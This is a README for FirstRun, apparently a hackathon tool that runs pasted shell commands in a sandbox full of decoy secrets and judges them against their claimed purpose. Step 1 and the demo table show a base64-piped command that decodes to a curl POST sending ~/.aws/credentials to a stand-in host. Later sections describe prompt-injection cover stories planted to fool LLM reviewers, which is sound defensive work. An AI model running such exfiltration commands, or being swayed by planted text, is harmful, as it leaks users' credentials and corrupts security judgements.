



<p align="center">
  
</p>

<h1 align="center">FirstRun</h1>

<p align="center">
  <strong>Find out what that command really does, before you run it.</strong>
</p>

<p align="center">
  <a href="https://firstrun.makmurlab.com"></a>
  
  
  
  <a href="LICENSE"></a>
</p>

<p align="center">
  
</p>
<p align="center">
  <sub>Every event and number in this animation comes from <a href="https://firstrun.makmurlab.com/r/2EQ1CFJD9ZP19F2S8T47FM2SXR">this real run</a>.</sub>
</p>

A website, a video or a chat tells you to paste a command into your terminal. It looks like gibberish, and the only advice anyone gives you is "check it first".

FirstRun checks it for you. Paste the command and one line about what you were told it does. FirstRun runs it on a throwaway fake laptop full of fake secrets, with a fake internet that records everything and forwards nothing. Then it shows you what you were told next to what the command actually did.

**Try it:** open **[firstrun.makmurlab.com](https://firstrun.makmurlab.com)**, pick the example "CLI version check", and press the button. You will have an answer in about ten seconds. Or paste your own command, even a malicious one. No account and no code needed.

Built for the [Vultr "Agent Rush" hackathon](https://lablab.ai/ai-hackathons/vultr-hackathon) on lablab.ai, Challenge 1 "Blast Radius Zero".

## Contents

1. [What FirstRun does](#1-what-firstrun-does)
2. [Business value](#2-business-value)
3. [Vultr services and infrastructure used](#3-vultr-services-and-infrastructure-used)
4. [Backend and deployment architecture](#4-backend-and-deployment-architecture)
5. [The agent: use case and real task execution](#5-the-agent-use-case-and-real-task-execution)
6. [How well it works](#6-how-well-it-works)
7. [Setup steps](#7-setup-steps)
8. [Demo](#8-demo)
9. [Security model and limits](#9-security-model-and-limits)
10. [License and contact](#10-license-and-contact)

## 1. What FirstRun does

### The problem

Getting people to paste a command is now a normal way to deliver malware. In May 2026, [Microsoft described a ClickFix campaign](https://www.microsoft.com/en-us/security/blog/2026/05/06/clickfix-campaign-uses-fake-macos-utilities-lures-deliver-infostealers/) that used fake macOS utility pages to deliver infostealers. In August 2026, [Elastic described the CHAINDROP npm worm](https://www.elastic.co/security-labs/threat-command/shai-hulud-chaindrop-npm-supply-chain), which goes after Claude, Codex, Cursor, OpenAI, Gemini and cloud credentials, and plants triggers in Claude Code and VS Code settings.

Nobody can check a base64 chain by reading it. The command has to be run to know what it does, and running it is exactly what you wanted to avoid.

### What you get back

FirstRun runs the command for you, somewhere it cannot hurt, and answers with one of three verdicts:

| Verdict | What it means | Try it |
|---|---|---|
| **Malicious** | Proof from the sandbox, such as a fake credential found in an outgoing request. | [`canary` report](https://firstrun.makmurlab.com/r/2EQ1CFJD9ZP19F2S8T47FM2SXR) |
| **Suspicious** | It did something the claim does not explain, or an AI reading of the code found a concern. Look before you decide. | [`shim` report](https://firstrun.makmurlab.com/r/88AM2Y4Z6ETZPS4MWC3CYKTXT8) |
| **Clean** | Nothing suspicious was seen in this run. That is not a promise that the command is safe. | [`nvm` report](https://firstrun.makmurlab.com/r/B74XVMEN26HZN8TE3JY74KBHDG) |

Each report shows what you were told against what happened, which program started which, every recorded event, the fake credentials that were on the machine, any hidden code that was decoded, and a plain explanation with a link you can share.

### See it for real

<p align="center">
  
</p>
<p align="center">
  <sub>Recorded from the public site in real time, nothing sped up. The red banner appears less than a second after the command starts. <a href="https://firstrun.makmurlab.com/r/N9ECY3G7XF9DQF9FD3GPDQEAJ0">Open the report from this recording</a>.</sub>
</p>

### What makes it different

- **It runs the command instead of guessing from the text.** Text can lie. A file being opened and a request being sent cannot.
- **Every secret is a trap made for that run.** When a token shows up in an outgoing request, that is proof, whatever the command claimed to be doing.
- **Fixed rules give the verdict.** An AI helps, but it can only raise a verdict, never lower it. A command cannot talk its way to a clean result.
- **It tries again when the code is waiting for something.** If a command only misbehaves under certain conditions, the agent notices and runs it once more under those conditions.

## 2. Business value

**In short:** someone gets a command, checks it in 10 to 20 seconds without running it on their own machine, and sends the report link to whoever needs to see it. A thousand checks a month cost about $25.30. FirstRun has no customers or pilots yet and does not run Windows commands, so this value is reasoned, not yet proven.

### Who it helps first

**Engineering teams, and the IT help desks and security people who support them.** Developers paste install commands as part of the job, so "just run this" does not look strange to them, and their laptops hold the keys attackers want. FirstRun runs Linux shell commands today, which is the form a `curl | bash` install takes.

| What is happening | Source |
|---|---|
| More than 1.1 million devices ran ClickFix-style commands between February and early May 2026, roughly an eightfold increase | [Microsoft Digital Defense Report 2026](https://www.microsoft.com/en-us/security/security-insider/threat-landscape/2026-digital-defense-report), October 2026 |
| ClickFix made up 52% of one vendor's detections through Q2 2026, and 67% in August | [Push Security](https://pushsecurity.com/blog/the-state-of-clickfix-by-detection-data), September 2026. This is its own detection data, not the whole market |
| Attackers increasingly dress these up as developer and AI tooling, with fake install guides for Claude Code and NotebookLM | Same Push Security report |

### What changes for them

| Today | The catch | With FirstRun |
|---|---|---|
| Run it and hope | It runs on the real laptop, next to the real keys | It runs on a fake laptop with fake keys |
| Ask the security team | Someone has to stop and work it out by hand | The person asking sends a link to a finished report, and the reviewer starts from evidence |
| Paste it into a chatbot | The chatbot reads the text and guesses, and planted text can fool it | The command is run, and a fooled model cannot lower the verdict |

The flow fits in one line: **someone gets a command, checks it in 10 to 20 seconds, and sends the report link to whoever needs to see it.** The four public reports in the [Demo](#8-demo) took between 9.7 and 20.3 seconds from start to finish. There is also an API, so a chat bot or a ticket system could call it without a person opening the site. That integration is not built yet.

### What one check costs

| Checks per month | VM | Models | Total | Per check |
|---|---|---|---|---|
| 1,000 | $24 | $1.30 | **$25.30** | $0.025 |
| 10,000 | $24 | $13 | **$37** | $0.004 |
| 43,200 (the current limit of 60 runs an hour, all month) | $24 | $56 | **$80** | $0.002 |

How these numbers were made, and what they leave out:

- **Models: about $0.0013 per check.** Measured on 7 November 2026 with the real prompts, on inputs rebuilt from four public reports, three tries per role. The range was $0.0012 to $0.0014. The prices are the ones Vultr's own `/v1/models` lists for `deepseek-v4.1-flash-1017`: $0.15 per million input tokens and $0.60 per million output tokens.
- **VM: $24 a month.** This is the list price from Vultr's plans API for 2 vCPU and 4 GB. The exact plan was inferred from the size of the running VM.
- **Not included:** the unwrap helper, which only runs on hard layers, and any account-level Serverless Inference fee, because Vultr's pricing page could not be read when this was written.
- **The bottom row of the table is a limit we set, not a load test.** Sustained traffic at that level has not been tried.

As a rough way to weigh this, **if** each check saved a person five minutes, 1,000 checks would save about 83 hours for $25.30. The five minutes is an assumption, not a measurement.

### What is not there yet

- **No customers and no pilots.** The value above is reasoned, not proven. The next step is one pilot with one engineering team, measuring how many commands get checked and how much time it really saves.
- **Windows and PowerShell.** ClickFix is common on Windows, and Windows commands are refused today. This is the biggest gap and the first thing to build after a pilot.
- **Private reports.** Anyone with a report link can read it, which is not good enough inside a company. Teams would need sign-in and private reports.
- **Integrations.** A chat bot and a help desk connection would put this where people already ask for help.

How it would be sold is still a guess: a free public site for individuals, and a team subscription with private reports and integrations. The cost per check is low enough that the price can follow the time saved instead.

## 3. Vultr services and infrastructure used

| Service | What it does here |
|---|---|
| **Cloud Compute** | One VM (2 vCPU, Ubuntu 26.10) runs everything: the Node.js service, Docker with the gVisor runtime, one sandbox and one fake-internet container per run, the trace collector, and nginx with a Let's Encrypt certificate for HTTPS. `ufw` allows only ports 22, 80 and 443. No other cloud provider is involved. |
| **Serverless Inference** | Every LLM call of the agent goes through `api.vultrinference.com/v1`. The table below lists them. Each report names the models it used under `models_used`, which is the evidence for Challenge 1's requirement. |
| **Object Storage** | The report store is written for it: one JSON file per run in a private bucket, served only through the `/r/<id>` page. The credentials are not set on this instance yet, so reports currently stay on the VM's disk. |

| LLM role | Model | Fallback | What it may do |
|---|---|---|---|
| Claim to checklist | `deepseek-v4.1-flash-1017` | `qwen3.8-flash-next` | Turn the claim into a list of what to expect. It never sees the command. |
| Unwrap helper | `deepseek-v4.1-flash-1017` | `qwen3.8-flash-next` | Write a small script that prints hidden code instead of running it. |
| AI reviewer | `deepseek-v4.1-flash-1017`, with the model's own reasoning on | `qwen3.8-flash-next`, reasoning off so it fits in the time left | Read the code, raise a concern, ask for one more run from a fixed menu. |
| Explanation | `deepseek-v4.1-flash-1017` | `mimo-v2.6-flash` | Explain the result in plain words. It must repeat the verdict it was given. |

Every call asks for JSON and is validated against a strict schema before anything uses it. The models were picked by testing the real prompts on the service; the evidence is written next to the settings in [`server/llm/config.json`](server/llm/config.json).

## 4. Backend and deployment architecture



**Where trust ends.** Everything inside the sandbox is untrusted. The fake internet is our code but it reads untrusted bytes, so it runs with minimal capabilities, a read-only root filesystem and no route out. The orchestrator, the trace collector, nginx and every key exist only on the host and never enter a container. The service itself listens on `127.0.0.1:3000`, and nginx is the only public way in.

**What one run gets:**

| | Sandbox | Fake internet |
|---|---|---|
| Runtime | gVisor (`runsc`, systrap, no KVM needed) | `runc` |
| Memory, CPU, processes | 512 MB, 1 CPU, 256 | 256 MB, 0.5 CPU, 64 |
| Filesystem | Read-only root, HOME in memory, seeded with decoys | Read-only root |
| Privileges | User 1000, all capabilities dropped, `no-new-privileges` | Minimal capabilities |
| Network | A private Docker network with an isolated gateway. The only neighbour is the fake internet. | Same network, no route out |
| Time limit | 60 s inside (30 s for a second run), 75 s watchdog outside | Removed with the run |

Two runs can go at once and eight can wait in the queue. Teardown runs in a `finally` block, and a cleaner sweeps anything left behind after 10 minutes. The full design, with every flag and its source, is in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md) (in Indonesian).

## 5. The agent: use case and real task execution

The agent has one job: find out whether what the person was told is true. It works toward that with real actions. It decodes the command, writes and runs helper scripts when decoding is not enough, runs the command for real, and then decides whether another run under different conditions would show more.

The rule that shapes everything: **the model helps, fixed code decides.** A model can be persuaded by text inside the command. A rule that says "a fake credential left in a POST body" cannot.

<p align="center">
  
</p>

### Step 1: Decode what is hidden

Plain string code on the host peels base64, hex, `\x` escapes, URL encoding, gzip and deflate, UTF-16 text and simple variable tricks. Nothing runs at this stage. Each layer appears in the report and on the live timeline.

```text
echo ZWNobyAiYWNtZS1jbGkgMi40LjEgKHN0YWJsZSkiCmN1cmwgLXM... | base64 -d | bash
                                  │
                                  ▼
echo "acme-cli 2.4.1 (stable)"
curl -s -X POST --data-binary @"$HOME/.aws/credentials" https://updates.acme-cli.test/v1/check -o /dev/null
```

If a layer still hides execution that plain code cannot open, the **unwrap helper** steps in. The model writes a small script that redefines `eval`, `| bash` and the like so they print instead of run. That script runs in the same gVisor sandbox with no network and no decoys, and what it prints becomes the next layer, which is evidence and not opinion. Checks reject any helper that tries to execute, reach the network or write outside `/tmp`. The limits are 5 layers, 3 tries per layer and 45 seconds.

### Step 2: Turn the claim into a checklist

The model gets the one line the person was told, and **never the command**, so the code cannot shape what is expected of it. An early version showed the model both, and it wrote the bad behaviour straight into the list of what to expect. This is the real checklist from the run above:

```json
{
  "summary": "Prints the installed version of the Acme CLI",
  "expected_hosts": [],
  "expected_write_paths": [],
  "expected_processes": [],
  "allowed_decoy_categories": [],
  "notes": "The claim names no recognizable tool, so no hosts, paths or programs are expected. Printing a version normally only reads local state and needs no network access or file writes."
}
```

### Step 3: Run it on a fake laptop

The command runs exactly as pasted, on what looks like a developer's machine. Thirty-five fake secrets are created fresh for each run:

| What it looks like | Examples |
|---|---|
| SSH | `~/.ssh/id_ed25519`, `~/.ssh/config`, `~/.ssh/known_hosts` |
| Cloud | AWS, Google Cloud, Azure, Alibaba Cloud, Kubernetes, Vault |
| Code and packages | npm, GitHub CLI, git credentials, Docker |
| Browsers | Chrome and Firefox saved passwords and cookies |
| Wallets | Exodus, Electrum, a seed phrase backup |
| AI coding tools | Claude, Gemini, Codex, Cursor |
| Project and history | a project `.env`, bash and zsh history |
| Not files | a password typed into a fake prompt, API keys in the environment on a second run |

Most of them carry a unique token. FirstRun looks for that token, plain or as base64, double base64, URL encoding, hex or base32, in every URL, header, body and DNS name, and at the start of every raw connection the command makes.

The network is just as fake. Every hostname resolves to one local server, which accepts HTTPS with a throwaway certificate, records the request, answers with something empty and forwards nothing. There is no route from the sandbox to the host or to the real internet, and the service checks that every time it starts, with [`scripts/selfcheck.sh`](scripts/selfcheck.sh).

Three recorders watch from **outside** the sandbox, so nothing inside can switch them off. If the collector is down, no sandbox starts.

| Recorder | What it sees |
|---|---|
| gVisor trace points | Programs started, files opened, connections attempted |
| gVisor's own syscall log | Files deleted, renamed, emptied, linked or given new permissions |
| The fake internet | DNS lookups, HTTP and HTTPS requests with their bodies, raw TCP and UDP |

Commands for other systems, such as `launchctl`, `osascript` or `powershell`, are caught by small stand-in programs that record the call without doing anything.

### Step 4: Compare, with fixed rules

Each event is marked as explained by the checklist, unexplained, or forbidden. Then 37 rules turn events into findings with fixed severities:

| Family | Examples | Severity |
|---|---|---|
| Leaks | A fake credential found in outgoing data. A credential read, then data sent to an unknown host. | Critical |
| Credentials | Opened a fake key. Changed or deleted one. | High |
| Network | Uploaded to a host the claim does not mention. Tried to reach the cloud metadata service. | High |
| Persistence | Changed a shell startup file, a scheduled task, or a coding tool's settings so it runs commands by itself. | High |
| Files | Deleted, moved or changed files that were already there. Tried to write a system file. | Medium, high for critical system files |
| Other | Contacted an unexplained host. Used raw network tools. Ran out of time or memory. | Medium |

The verdict is one line of logic, simple enough to say out loud:

> Any critical finding is **Malicious**. Otherwise, any high or medium finding is **Suspicious**. Otherwise it is **Clean**.

There are no scores and no thresholds. The same events always give the same verdict. A claim can explain a lot, but it can never explain a fake credential leaving the machine, and no claim excuses reading a wallet or a browser's saved passwords.

### Step 5: Let an AI read the code, with a leash on

Rules only see what happened. A command that stops early, or does its damage only on a real computer, would look clean. So unless the rules already said Malicious, the **AI reviewer** reads the code and a short record of the run, and answers two questions:

1. What would this do on the person's real computer, and does anything go beyond what they were told in a way that could hurt them?
2. Is there a line that decides whether the rest runs, while the rest was never recorded?

The command is written by a possible attacker, so the answer is held to strict limits:

- **It can only raise.** The reviewer can move Clean to Suspicious. It cannot lower anything and it can never produce Malicious, which is reserved for proof from the sandbox. A fooled model causes at most a false alarm or a miss, and a miss is what the rules alone would have given anyway.
- **Reasons must quote real code.** Every reason has to quote a line that actually runs, and FirstRun checks the quote. Comments do not count, so "this is an approved security tool" in a comment gets nothing.
- **It thinks first.** The answer format puts the summary and reasons before the risk level, and the model's reasoning is on, so it reasons before it decides.
- **It never sees the secrets.** It gets an allowlisted summary, never raw output or token values, and all untrusted text sits in fields marked as data.
- **The result says what it is.** A finding from the reviewer is labelled "AI reading, not observed". If the reviewer fails or runs out of time, the verdict stands and the report says so.

### Step 6: Run it again when the code is waiting

Some commands behave only under certain conditions: on a CI machine, on a server with the right name, when a key is present, after a long sleep, or after someone answers a prompt. Running them once shows nothing. So the reviewer can ask for one more run:

<p align="center">
  
</p>
<p align="center">
  <sub>Taken from <a href="https://firstrun.makmurlab.com/r/S1HQPWT9Q6DR69PXXAHAE8JEE0">this real run</a>.</sub>
</p>

The model does not get to write anything that runs. It only picks from a fixed menu, and FirstRun supplies every value:

| Setting | Choices | Example of code that needs it |
|---|---|---|
| `set_env` | `CI`, `GITHUB_ACTIONS`, `DISPLAY`, `SUDO_USER`, `SSH_CONNECTION`, `AWS_SECRET_ACCESS_KEY`, `GITHUB_TOKEN`, `NPM_TOKEN`, `OPENAI_API_KEY`, `ANTHROPIC_API_KEY` | `[ -n "$CI" ] \|\| exit 0` |
| `hostname` | `devbox`, `macbook-pro`, `prod-web-01`, `ci-runner-7` | `[ "$(hostname)" = "devbox" ] && exit 0` |
| `answer_yes` | Answers `y` to every prompt | `read -p "Continue? " a` |
| `skip_sleep` | Makes `sleep` return at once | `sleep 600` |

Secret values are fake tokens made for that run, so a key that leaves on the second run is caught like any other. The command itself never changes, and the verdict comes only from what is then observed.

### Step 7: Explain it

A last model call writes the explanation from the verdict and findings. It must repeat the verdict it was given, its words pass a check, and no secret value is ever in what it sees. If the call fails or disagrees with the verdict, a fixed template is used. The report is stored, and the link can be shared.

## 6. How well it works

### On the real service

| Test (5 Nov 2026) | Result |
|---|---|
| 5 hidden-condition commands, 3 times each: needs `CI`, checks the hostname, asks a question, needs an API key, sleeps first | **15 of 15** got a second run and ended Malicious |
| Honest commands such as `echo`, `python3 -c`, `ls` and `df` | **9 of 9** Clean, with no second run |
| The `nvm` sample, the real installer from its official URL | **5 of 5** Clean |
| [`scripts/smoke.sh`](scripts/smoke.sh) over the public address: containment, trace capture, samples, access code, kill switch, rate limit | **18 of 18** passed |
| Unit and fixture tests (`npm test` in `server/`, re-run 7 Nov 2026) | **407 of 407** passed |

### The AI reviewer on public command sets

We measured the reading step on public sets that we did not write: [NL2Bash](https://github.com/TellinaTool/nl2bash) for honest commands, with their real descriptions as the claim, and the Linux tests of [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) for attacks. **These were only read as text. Nothing was executed.** Prompt changes could only look at one half of each set, and these numbers come from the other half:

| | Model's reasoning off | Reasoning on (what runs) |
|---|---|---|
| Honest command with its real description: flagged | 1 of 120 | **1 of 120** |
| Honest command, claim "i dont know": flagged | 5 of 120 | **14 of 120** |
| Attack test, claim "i dont know": raised | 70 of 131 | **89 of 131** |
| Attack test, fake claim "approved and safe to run": raised | 91 of 131 | **90 of 130** |
| Median time for the call | 1.4 s | **2.5 s** |

How to read this honestly:

- **This is one step, not the whole system.** It leaves out the sandbox and the rules, which catch what actually happens. A command that opens a key gets caught whether or not the reviewer noticed.
- **68% is the number to trust.** Our own hand-written samples scored 29 of 30, and the half used for tuning scored 79%. The untouched half scored 68%. Your own tests flatter you.
- **100% is not the target.** Some Atomic tests are harmless on their own, such as decoding a fixed string or printing the shell's name.
- **False alarms depend on the claim.** With a real description, 1 of 120. With no information at all, most of the 14 really do delete or change existing files, which is worth knowing when nobody told you what the command does, though a few are harsh.
- **The cover story did not help the attacker.** Claiming "approved and safe" did not lower the catch rate, though this is one fixed sentence and not a crafted attack.

For comparison, [CARE](https://arxiv.org/abs/2607.21642) used the same two public sets and reports 67.27% caught with 11.25% false alarms for a plain LLM, and 75.91% with 0.91% for its own method. The samples differ, so these cannot be compared directly.

### Why it is built this way

| What recent research found | Source | What FirstRun does about it |
|---|---|---|
| Static scanners collapse under obfuscation: one fell from 98.6% to 10.1% | [SkillDetonate](https://arxiv.org/abs/2607.02357) | Runs the command instead of reading it |
| Following real data from source to destination matters: removing it took false alarms from 2% to 16% | [SkillDetonate](https://arxiv.org/abs/2607.02357) | A unique token in every fake secret |
| Dynamic analysis misses code that needs a missing key or a dead endpoint, or that times out | [SkillDetonate](https://arxiv.org/abs/2607.02357) | Fake keys in the environment, a fake internet that always answers, `sleep` skipped on a second run |
| A cover story planted in a file flipped Gemini 2.5 Pro on 30 of 35 malware samples | [ALIBI](https://arxiv.org/abs/2609.19722) | The model cannot lower a verdict, and comments do not count as evidence |
| Text planted in logs fooled LLMs 83.4% of the time on average | [LogInject](https://arxiv.org/abs/2607.14493) | The model gets an allowlisted summary, never raw output |
| An LLM alone gave 8.8% false alarms; combined with behaviour rules and a decision tree, 0.03% with no loss in catch rate | [Trident](https://arxiv.org/abs/2605.00297) | Rules decide, and the model can only add to them |

## 7. Setup steps

You need a Vultr Cloud Compute VM running Ubuntu (tested on 26.10), a Serverless Inference key, and for public access a hostname pointing at the VM. Clone the repo to `/opt/firstrun`, then:

```bash
sudo bash infra/setup-vm.sh                                  # packages, Docker, gVisor, images, services
sudo install -m 0640 -o root -g firstrun .env.example /etc/firstrun/firstrun.env   # then fill in the keys
sudo bash scripts/netcheck.sh                                # the sandbox really cannot get out
sudo bash scripts/trace-selftest.sh --fail-closed            # trace points arrive; no collector, no sandbox
sudo systemctl restart firstrun
sudo bash infra/setup-https.sh firstrun.example.org          # nginx, a certificate from certbot, public URL
sudo bash scripts/smoke.sh https://firstrun.example.org      # the whole thing, end to end
```

[`.env.example`](.env.example) lists every setting. The important ones are `VULTR_INFERENCE_API_KEY`, `FIRSTRUN_ACCESS_CODE` (at least 24 characters) and, if you use Object Storage, `FIRSTRUN_S3_*`.

To run the tests, which need no VM, no Docker and no key:

```bash
cd server && npm ci && npm test
```

Day-to-day operations such as restarting, rotating the access code, curated-only mode, the kill switch and restoring are in [docs/RUNBOOK.md](docs/RUNBOOK.md). The manual steps and the reasoning behind them are in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md), section 12.

## 8. Demo

- **Live site:** https://firstrun.makmurlab.com
- **Video (about 4 min) and slides:** added with the submission.

Three examples anyone can run without a code, all written by us and harmless:

| Sample | You were told | What it really does | Verdict | Report |
|---|---|---|---|---|
| `canary` | "prints the installed Acme CLI version" | A base64 layer hides a line that sends the fake `~/.aws/credentials` to `updates.acme-cli.test`, a host that exists only inside the sandbox network | **Malicious** | [open](https://firstrun.makmurlab.com/r/2EQ1CFJD9ZP19F2S8T47FM2SXR) |
| `shim` | "cleans temporary files" | Also probes `launchctl`, `crontab` and `systemctl`, and adds a line to `~/.bashrc` | **Suspicious** | [open](https://firstrun.makmurlab.com/r/88AM2Y4Z6ETZPS4MWC3CYKTXT8) |
| `nvm` | "installs nvm" | The official nvm v0.40.8 installer, script-only. The fake internet answers its downloads from a stored copy of the same version | **Clean** | [open](https://firstrun.makmurlab.com/r/B74XVMEN26HZN8TE3JY74KBHDG) |

<p align="center">
  
</p>

**Your own commands** work for anyone on the site, so judges can paste their own malicious commands. The page sends a public access code for you. It is in [`web/app.js`](web/app.js) on purpose and is not a secret. A public page that runs pasted text is an abuse target by design, so the rate limits are what keep one VM usable for everyone, and changing the code on the server closes this at once.

**From a terminal:**

```bash
curl -s https://firstrun.makmurlab.com/api/runs -H 'content-type: application/json' -d '{"sample_id":"canary"}'
curl -N https://firstrun.makmurlab.com/api/runs/<run_id>/events    # live events
curl -s https://firstrun.makmurlab.com/api/runs/<run_id>           # the full report as JSON
```

<details>
<summary><strong>API reference</strong></summary>

| Endpoint | What it does |
|---|---|
| `POST /api/runs` | Start a run. Body is `{"sample_id": "canary"}`, or `{"command": "...", "claim": "..."}` with the `x-firstrun-access-code` header, whose public value is in `web/app.js`. Answers `202` with `run_id` and `events_url`. |
| `GET /api/runs/:id` | Status, and the full report once it is done. |
| `GET /api/runs/:id/events` | Live events. Reconnects with `Last-Event-ID`. |
| `GET /api/samples` | The curated samples. |
| `GET /healthz` | Health checks and counters. |
| `GET /r/:id` | The report page. |

Live events, in order: `run.queued`, `run.started`, `unwrap.layer`, `contract.ready`, `exec.started`, `evidence`, `alert`, `exec.finished`, `retry.started` (then a second `exec.started` ... `exec.finished`), `verdict`, `explanation`, `run.done` or `run.error`.

The report schema is in [docs/ARCHITECTURE.md](docs/ARCHITECTURE.md), section 10.3.

</details>

<details>
<summary><strong>Where things are in this repo</strong></summary>

| Path | What is there |
|---|---|
| `server/http/` | API, live events, rate limits, the Linux-only check |
| `server/run/` | One run from start to finish: Docker, decoys, cleanup |
| `server/unwrap/` | The decoder and the unwrap helper |
| `server/evidence/` | Reading the recorders, matching fake tokens |
| `server/rules/` | The 37 rules and the verdict |
| `server/review/` | The AI reviewer, its one-way limit, the second-run menu |
| `server/llm/` | Client, schemas, prompts, model settings with evidence |
| `server/explain/` | The explanation and its fixed template |
| `server/storage/` | Report cache, local storage, Object Storage |
| `sandbox/` | The fake laptop's image, stand-in programs for other systems |
| `sinkhole/` | The fake internet's image |
| `infra/` | VM setup, HTTPS, Docker runtimes, services, the trace collector |
| `web/` | The site: plain HTML, CSS and JavaScript with no build step, and self-hosted IBM Plex fonts |
| `fixtures/` | The samples, 70 rule test cases, captured trace logs |
| `scripts/` | Smoke test, network check, trace self-test, image builds |
| `docs/` | Full design, runbook, demo script |

</details>

## 9. Security model and limits

**How the risk is contained:**

- **Sandbox:** gVisor with a read-only root, HOME in memory, user 1000, no capabilities, `no-new-privileges`, 512 MB, 1 CPU, 256 processes and 60 seconds. The environment holds no secrets, and every credential in HOME is a per-run fake.
- **Network:** an internal Docker network with an isolated gateway. The only neighbour is the fake internet, which never forwards anything. Literal IP addresses fail immediately.
- **Evidence from outside:** recorders run outside the sandbox, so a process inside cannot suppress them. If the collector is down, no sandbox starts.
- **Host:** Docker is only ever called with `execFile` and no shell. The only request value that reaches a Docker argument or a host path is the 26-character run id. Secrets are never passed to child processes.
- **Public entry:** nginx on ports 80 and 443 is the only way in. Requests that do not name the hostname are dropped, HTTP redirects to HTTPS, and `X-Forwarded-For` is overwritten, so a client cannot pick its own rate-limit bucket. nginx keeps no access log; the service's log in journald, kept 7 days, is the only record of requests.
- **Abuse controls:** a public access code that works as an off switch for your own commands, 5 runs per 10 minutes per address, 60 runs per hour in total, a queue of 8, a kill switch, a disk guard and an automatic cleaner.
- **Prompt injection:** untrusted text only ever sits in delimited data fields. Every model answer must pass a strict schema. Models never see token values, and they cannot lower a verdict.

**What it cannot do, so you are not misled:**

- **Clean does not mean safe.** It means nothing suspicious was seen in this run.
- **Linux only.** Windows and macOS commands are refused before anything runs. A script that behaves differently on those systems is only ever tested as Linux.
- **60 seconds, no terminal.** A command that needs a real terminal, or waits in a way a second run cannot skip, may show nothing. Reports say so when they can tell.
- **The internet is fake.** Anything the command would download from a real server is never fetched, so what that code would do is not seen. Reports say so when it applies.
- **Conditions outside the menu.** A second run only tries the settings listed above. Code waiting for something else, such as a specific date or a file on a real machine, stays hidden.
- **Sandbox escapes.** gVisor is a strong boundary, not a perfect one. Nothing on the VM is meant to be worth stealing, and the runbook says to rebuild rather than repair if it looks compromised.

**Not done yet:**

- No independent security review. Only our own checks so far.
- Object Storage has not been tested with real credentials.
